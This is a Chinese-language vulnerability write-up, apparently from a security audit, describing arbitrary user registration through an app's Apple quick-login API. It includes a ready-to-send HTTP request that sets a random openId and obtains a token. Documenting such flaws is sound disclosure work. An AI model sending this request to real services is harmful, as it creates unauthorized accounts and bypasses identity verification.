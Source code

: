 ## 【中危】任意用户注册（apple 快捷登陆）

### 漏洞详情

新建用户的方式有很多，其中 apple 快捷登陆，没有进一步确认用户身份，默认不开启强制手机号注册，导致只需要提供 openId 就能创建新用户。

### 漏洞复现

对`http://localhost:45600/api/apple_login`发起请求，修改`openId`为随机数值。

```php
POST /api/apple_login HTTP/1.1
Host: localhost:45600
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 28

{"openId":"asdasdasdqweqwe"}
```

发送请求包后即可获得 Token。

![document_image_rId78.png](assets/1703831601-e8737fb1a8d1208905c166a581d157cd.png)

